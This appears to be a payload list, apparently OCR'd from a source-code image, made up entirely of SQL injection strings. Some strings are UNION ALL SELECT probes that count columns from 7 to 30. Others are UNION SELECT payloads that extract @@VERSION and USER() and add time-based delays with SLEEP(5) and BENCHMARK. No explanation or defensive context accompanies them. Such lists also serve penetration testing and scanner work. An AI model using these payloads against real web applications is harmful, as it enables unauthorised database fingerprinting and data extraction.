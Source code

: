       UNION ALL SELECT 1,2,3,4,5,6,7-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29-- 
      UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30-- 
      UNION SELECT @@VERSION,SLEEP(5),3
      UNION SELECT @@VERSION,SLEEP(5),USER(),4
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28
      UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29